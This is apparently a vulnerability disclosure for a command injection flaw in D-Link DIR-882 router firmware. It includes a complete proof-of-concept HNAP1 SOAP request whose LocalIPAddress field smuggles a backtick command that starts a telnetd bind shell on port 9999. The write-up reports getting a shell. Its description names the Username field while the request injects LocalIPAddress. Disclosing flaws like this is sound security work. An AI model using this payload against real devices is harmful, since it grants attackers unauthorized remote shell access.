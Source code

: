 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_882

Version:DIR_882_FW1.30B06_Hotfix_02(Download Link:https://support.dlink.com/productinfo.aspx?m=DIR-882-US)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-link Technology router with firmware which was released recently.A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

`LocalIPAddress` is directly passed by the attacker.After that, call the function sub_45651C.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

As you can see here, the input has not been checked.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `libfcgi.so` binary:

Eventually, the initial input cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `Username` as **`telnetd -l /bin/sh -p 9999 -b 0.0.0.0`192.168.100.153**, and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetVirtualServerSettings"
HNAP_AUTH: 9E6B4A7474510C8EA53D489BB0B327DF 1640594925146
Content-Length: 787
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/VirtualServer.html
Cookie: uid=n9g9DHeR

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetVirtualServerSettings>
			<VirtualServerList>
				<VirtualServerInfo>
					<Enabled>true</Enabled>
					<VirtualServerDescription>pjqwudi</VirtualServerDescription>
					<ExternalPort>9</ExternalPort>
					<InternalPort>9</InternalPort>
					<ProtocolType>UDP</ProtocolType>
					<ProtocolNumber>17</ProtocolNumber>
					<LocalIPAddress>`telnetd -l /bin/sh -p 9999 -b 0.0.0.0`192.168.100.153</LocalIPAddress>
					<ScheduleName>Always</ScheduleName>
				</VirtualServerInfo>
			</VirtualServerList>
		</SetVirtualServerSettings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>
